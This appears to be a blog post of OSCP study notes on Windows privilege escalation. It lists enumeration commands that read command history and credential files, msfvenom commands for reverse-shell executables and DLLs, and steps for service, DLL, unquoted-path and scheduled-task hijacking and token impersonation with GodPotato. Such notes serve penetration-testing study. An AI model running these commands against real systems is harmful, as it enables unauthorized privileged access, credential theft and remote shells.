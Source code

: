 ```yaml
---
author: "ZT"
title: Windows Privilege Escalation
description: "Common method of Windows Privilege Escalation"
image: WPE.png
date: 2023-11-03T16:31:42+02:00
categories:
    - Cybersecurity
    - StudyNotes
tags:
    - OSCP
    - PE
math: false
draft: false
---
```


## Introduction

**What is Privilege Escalation?** 

A **privilege escalation** is a cyberattack designed to gain unauthorized privileged access into a system. This not only make us able to access all resources on the system, but also closely related to lateral movement. We can dump other user's credential which saved in the system, so that we can use these credential to try to access other devices on the same intranet. Here I will show you same common method to make a privilege escalation on the Windows Operating System.

## Manual Enumeration (Information Gathering)

- `type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`: check user command history
- `whoami /priv`: check your permission
- `Get-ChildItem -Path C:\ -Include *.kdbx,*.zip,*backup* -File -Recurse -ErrorAction SilentlyContinue`: search key file
- `type C:\Users\Public\Transcripts\transcript01.txt`
- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`: list all installed application
- Event Viewer: Check Script Block Logging
- `whoami /groups`: check my permission group
- `Get-Process`: list all running process
- `systeminfo`: check system version and try to find a kernel vulnerability
- `netstat -ano`: list all active connections

## Automated Enumeration (Information Gathering)

- [winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases)
- [Seatbelt](https://github.com/GhostPack/Seatbelt): `Seatbelt.exe -group=all`

## Service Binary Hijacking

**Service Binary Hijacking**

1. `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`

2. Find out the service which is executed by administrator

3. We can use `icacls` to check if we have enough permission to overwrite the target executable file. Usage: `icacls "C:\path\to\program\program.exe"`

4. Generate your Trojan executable file (reverse shell): `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[local host] LPORT=[local port] -f exe -o reverse.exe`

5. Replace the target executable file with our Trojan file

6. `Restart-Service [service]`

## Service DLL Hijacking

1. Generate your payload dll (reverse shell)`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[local host] LPORT=[local port] -f dll -o payload.dll`

2. Start Procmon64.exe (RDP connection needed), find out the service which is executed by administrator
4. Find all dll which the target service used from Procmon64.exe
5. Replace the corresponded dll file with our Trojan dll
6. `Restart-Service [service which include this dll]`

## Unquoted Service Paths

- Find a service which run path contains spaces without quotes:
  - `wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """` (execute in cmd terminal)
- Inject our Trojan file (generate by `msfvenom`)
- `Start-Service -Name "ServiceName"` (PowerShell)

## Scheduled Tasks

- Check scheduled task executable file's permission
  1. `schtasks /query /fo LIST /v | Select-String '(?i)TaskName|Next Run Time|Author|Run As User|Task To Run|^\s*$'`
  2. Check Permission: `icacls C:\Path\to\taget\<target>.exe`
  3. Replace it with your Trojan file (you can generate it by `msfvenom`)
- Wait it execute

## Using Exploits

1. Check permission: `whoami /priv`

2. Find **SeImpersonatePrivilege** permission

3. Use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) / [GodPotato](https://github.com/BeichenDream/GodPotato)

4. Check .NET version: `Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name Version -ErrorAction SilentlyContinue | Where-Object { $_.Version -match '^\d+\.\d+' } | Select-Object PSChildName, Version`

5. GodPotato usage: `.\GodPotato-NET4.exe -cmd "cmd /c whoami"`

Others vulnerable permission: SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug

## By the way

Privilege escalation is very flexible, and the methods I introduced are only the most common ones. In a real case, you need to do the information gathering carefully, and try to exploit human behaviors, design flaws or oversights in operating systems or web applications. I recommend carefully checking the output information of **winpeas**, which often contains vulnerabilities that you can use to escalate privileges.

